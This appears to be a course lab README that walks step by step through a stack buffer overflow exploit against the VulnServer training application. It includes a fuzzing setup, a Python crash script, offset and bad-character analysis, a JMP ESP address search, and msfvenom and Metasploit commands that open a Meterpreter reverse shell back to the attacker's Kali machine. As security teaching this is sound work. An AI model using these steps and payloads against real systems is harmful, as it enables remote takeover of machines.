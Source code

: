 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv <windows ip> 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset

![alt text](exp4_immunity.png)

In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !

![alt text](exp5_immunity.png)

In your Immunity Debugger get the byte array for Bad character as per this image below 

![alt text](bad_char.png)

Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)

It works Fine.

NOW WE NEED TO FIND THE JUMP ESP TO OVERWRITE THE RETURN ADDRESS TO VALUE POINTING TOWARDS OUR MEMORY 

type these commands in your Immunity Debugger 
```sh
!mona modules
```

```sh
!mona find -s "\xff\xe4" -m essfunc.dll
```
![alt text](jmp_esp.png)

You will see that best address we can use is `0x625011AF`. Lets code it into our next exploit

Do note that while coding it we have to write it in Little Endian manner as per in `exploit7.py`

Restart the Immunity Debugger and In that ( LISTEN PROPERLY )

1. Right click < Go To < Expression < Write `625011AF`
   
2. Right Click at 625011AF < Set Breakpoint < toggle

3. Run it 

Check if your EIP is at 625011AF , Now beside the pause button there button in which you can step into memory address press it.

![alt text](exp7_immunity.png)

![alt text](exp7_immunity_inside.png)

TIME TO WRITE THE FINAL EXPLOIT !!

We need our payload , get it with this 
```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali_ip> lport=4444 -e x86/shikata_ga_nai -b "\x00" -f c
```

Paste the payload in script as per `exploit_final.py`

CLOSE THE IMMUNITY DEBUGGER 
OPEN CMD AND OPEN THE EXE FILE AS WE DID AT START

In kali run your `exploit_final.py` with python2

Do all these steps 
```sh
python2 exploit_final.py
```
Run Pyhton file in 2nd terminal
```sh
msfconsole
```
```sh
use exploit/multi/handler
```
```sh
set payload windows/meterpreter/reverse_tcp
```
```sh
set lhost <kali ip>
```
```sh
run
```

If you did it properly you will get Meterpreter Reverse Shell on your Kali

Check the Google Classroom PPTs and Videos if you have any doubts.







